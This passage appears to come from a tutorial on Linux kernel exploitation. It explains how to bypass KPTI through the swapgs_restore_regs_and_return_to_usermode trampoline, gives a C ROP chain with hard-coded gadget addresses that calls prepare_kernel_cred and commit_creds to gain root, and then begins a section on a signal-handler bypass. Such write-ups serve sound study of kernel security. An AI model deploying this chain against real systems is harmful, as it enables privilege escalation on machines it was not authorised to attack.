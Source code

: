 ```sh
/ # cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81800e10 T swapgs_restore_regs_and_return_to_usermode
```

![alt text](./kpti/assets/image.png)

![alt text](./kpti/assets/image-1.png)

The key point is that the stack was pre-adjusted to point to the correct location. The subsequent pushes are copying the user-space register values — originally stored on the kernel stack and meant for iretq — to a memory area that remains accessible even after the CR3 switch triggered by KPTI. So our complete KPTI Trampoline chain is started at `0xffffffff81800e26`

```c
    uint64_t kpti_trampoline_chain = 0xffffffff81800e26;
    uint64_t pop_rdi = 0xffffffff812ef4c0;
    uint64_t pop_rcx = 0xffffffff812ea083;
    uint64_t mov_rdi_rax = 0xffffffff8160c96b;

    uint64_t idx = 0;
    uint64_t *ROP = (uint64_t *)(buf + 0x408);

    ROP[idx++] = pop_rdi; // return address
    ROP[idx++] = 0;
    ROP[idx++] = prepare_kernel_cred;
    ROP[idx++] = pop_rcx; // Set rcx to 0 to avoid "rep movsq qword ptr [rdi], qword ptr [rsi]" in mov_rdi_rax
    ROP[idx++] = 0;
    ROP[idx++] = mov_rdi_rax;
    ROP[idx++] = commit_creds;
    ROP[idx++] = kpti_trampoline_chain;
    ROP[idx++] = 0;           // [rdi+0x0]
    ROP[idx++] = 0;           // [rdi+0x8]
    ROP[idx++] = user_rip;    // [rdi+0x10]
    ROP[idx++] = user_cs;     // [rdi+0x18]
    ROP[idx++] = user_rflags; // [rdi+0x20]
    ROP[idx++] = user_rsp;    // [rdi+0x28]
    ROP[idx++] = user_ss;     // [rdi+0x30]
```

Here is my full [exploit code](./kpti/exploit_kpti_trampoline.c) for this technique.

### Bypass KPTI with Signal Handler

So let's talk a little bit about kernel signal. Kernel signals are software interrupts that are delivered to processes. These signals are triggered by various events like user input (pressing CTRL+C), hardware exceptions (memory saturation, divide by 0), and software events (timeouts). When a signal is generated, the kernel will interrupt the normal flow of execution of a particular process and handle the signal according to the signal disposition. There are three types of signal dispositions:

- **Ignore Signal:** The process will ignore the signal and continue executing as if nothing happened.
- **Catch Signal:** The process will execute a user-defined signal handler function to handle the signal.
- **Terminate Signal:** The process will terminate and return an exit code to the kernel (e.g SIGSEGV, SIGKILL).

